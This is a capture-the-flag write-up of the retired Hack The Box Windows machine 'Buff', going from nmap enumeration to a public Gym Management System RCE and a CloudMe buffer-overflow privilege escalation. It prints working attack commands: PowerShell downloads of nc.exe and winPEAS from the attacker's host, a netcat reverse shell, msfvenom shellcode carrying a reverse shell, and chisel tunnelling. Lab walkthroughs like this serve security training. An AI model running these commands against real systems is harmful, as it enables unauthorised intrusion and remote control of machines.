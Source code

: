 +++
title = "HTB Buff Writeup"
date = 2023-07-07
+++
# HTB "Buff" Writeup - 7-6-2023

"Buff" is an easy windows box that has been retired. It had a nice exploit from some outdated software for the initial access and required some port forwarding trickery for the privesc.


## Enumeration

We can start with nmap.

```bash
[~/htb/buff]$ nmap -p- -Pn 10.10.10.198
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-06 19:36 EDT
Nmap scan report for 10.10.10.198
Host is up (0.033s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

7680 is not a port that I recognize here.

Moving on, to full service detection and scripts.

```bash
[~/htb/buff]$ nmap -sC -sV -p7680,8080 -Pn 10.10.10.198
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-06 19:39 EDT
Nmap scan report for 10.10.10.198
Host is up (0.030s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
``` 

This doesn't tell us much as I know from prior experience none of these service versions are really going to be vulnerable.


Browsing to the page, and looking around, we can find a footnote that says `Gym Management Software 1.0`.

Doing a `searchsploit "gym managment"`, provides us with an RCE exploit!

```bash
[Gym Management System 1.0 - Unauthenticated Remot | php/webapps/48506.py](<[~/htb/buff]$ searchsploit gym
-------------------------------------------------- ---------------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection    | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scr | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remot | php/webapps/48506.py
WordPress Plugin WPGYM - SQL Injection            | php/webapps/42801.txt
-------------------------------------------------- --------------------------------->)
```

## Foothold

Running this script as `python 48506.py http://10.10.10.198:8080/` gives us a web shell. We can't do much here, so we will want to pivot out.

Something was killing payloads generated by msfvenom (defender was turned on I later learned). I also had trouble using certutil to upload so I used powershell and a simple nc.exe shell.

```cmd
powershell -c Invoke-WebRequest -Uri http://10.10.14.2/nc.exe -OutFile nc.exe
nc.exe -e cmd.exe 10.10.14.2 4444
```


## Privesc

From here I went through the gauntlet of searching for the proper privesc vector including starting with winpeas.

```cmd
powershell -c Invoke-WebRequest -Uri http://10.10.14.2/winPEASx64.exe -OutFile peas.exe
```

Turns out in our user, shauns, download folder there is an executable called `cloudme_1112.exe` additional enumeration through `tasklist` and `netstat` shows there is a process running internally on port 8888.

```cmd
netstat -ano | findstr TCP | findstr ":0" - find the pid
tasklist /v | findstr 2820
```

```cmd
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       6952
```

```cmd
  TCP        127.0.0.1             8888          0.0.0.0               0               Listening         3992            CloudMe
```

A searchsploit on cloudme revealed a remote buffer overflow.

```bash
[~/htb/buff]$ searchsploit cloudme
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                                                                                | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                                                                       | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                                                                       | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                                                                      | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                                                                               | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasploit)                                                                        | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                                                                                           | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt                                                                                       | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)                                                                              | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                                                                                               | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                                                                            | windows_x86-64/remote/44784.py
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```

To run this properly we need to generate shell code like so:

```bash 
 msfvenom -p windows/exec CMD="c:\Users\shaun\Downloads\nc.exe -e cmd.exe 10.10.14.2 4444" -b '\x00\x0A\x0D' -f python -v payload
```

I uploaded netcat again to make sure my payload would not be borked.

And finally, what to do about the port only running internally?

We can chisel it out!

Start a listener on our machine:

```bash
./chisel server -p 1080 --reverse
```

Run the client on the compromised machine:

```cmd
.\chisel.exe client 10.10.14.2:1080 R:8888:127.0.0.1:8888
```

Then we can run our exploit with the shellcode that we generated dropped in and we are good to go.
